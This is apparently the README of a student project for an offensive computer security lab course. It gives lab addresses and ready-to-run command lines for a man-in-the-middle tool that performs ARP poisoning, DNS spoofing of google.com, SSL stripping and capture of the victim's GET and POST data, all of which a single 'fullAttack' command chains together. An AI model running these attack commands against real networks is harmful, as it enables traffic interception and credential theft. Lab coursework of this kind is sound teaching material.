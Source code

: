 # 2IC80Project
Lab on Offensive Computer Security
"
# Video link of the demo
https://www.youtube.com/watch?v=uOcwnNOZDNY&ab_channel=Ruud
### Addresses:
Attacker:
10.0.123.4  08:00:27:4f:6a:5d

Victim:
10.0.123.5  08:00:27:23:55:6e

Gateway:
10.0.123.1  52:54:00:12:35:00

### Commands:

See ARP table: `arp`
Clear ARP table: `sudo ip -s -s neigh flush all`

# Run steps separately:
1. ARP poison the victim: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --ipToSpoof "10.0.123.1"`

3. DNS Spoof the victim: `sudo python3 main.py --interface "enp0s10" dnsSpoof --ipVictim "10.0.123.5" --siteToSpoof "google.com"` 

4. SSL Strip traffic coming from the victim: `sudo python3 main.py --interface "enp0s10" sslStrip --ipVictim "10.0.123.5" --siteToSpoof "google.com"` 

### For the forwarder to work we must first terminate the webserver that is running by default on the attacker machine.
### 1. Determine the PID of the process: sudo lsof -i :80
### 2. Kill the process: sudo kill <PID>
5. Forward `sudo python3 main.py --interface "enp0s10" forward --ipVictim "10.0.123.5" --siteToSpoof "google.com" --get_file ./get.txt --post_file ./post.txt`

# Or Run the full attack at once:
### For the forwarder to work we must first terminate the webserver that is running by default on the attacker machine.
### 1. Determine the PID of the process: sudo lsof -i :80
### 2. Kill the process: sudo kill <PID>
1. `sudo python3 main.py --interface "enp0s10" fullAttack --ipVictim "10.0.123.5" --ipGateway "10.0.123.1" --siteToSpoof "google.com" --get_file ./get.txt --post_file ./post.txt`
